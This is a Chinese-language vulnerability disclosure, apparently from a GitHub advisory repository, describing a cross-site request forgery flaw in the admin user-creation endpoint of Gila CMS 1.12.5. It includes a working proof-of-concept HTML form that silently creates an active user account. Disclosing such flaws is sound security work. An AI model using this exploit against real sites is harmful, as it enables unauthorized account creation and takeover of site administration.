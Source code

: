## Gila CMS 1.12.5 CSRF 漏洞

### 一、漏洞摘要
> 漏洞名称：Gila CMS 1.12.5 CSRF 漏洞
> 上报日期：2020-05-14
> 漏洞发现者：laot
> 版本：V1.12.5

### 二、漏洞概述
后台添加管理员处没有进行token验证，导致csrf漏洞的发生，构造对应的exp可导致添加用户。

文件:/src/core/controllers/cm.php

![](./images/20200514164051.jpg)

构造如下代码，保存为html文件并打开，将成功触发漏洞。
```
<html>
  <body>
    <form action="http://gila.test/cm/update_rows/user" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="username" value="test01" />
      <input type="hidden" name="email" value="test01&#64;qq&#46;com" />
      <input type="hidden" name="pass" value="123456" />
      <input type="hidden" name="active" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![](/images/20200514164255.jpg)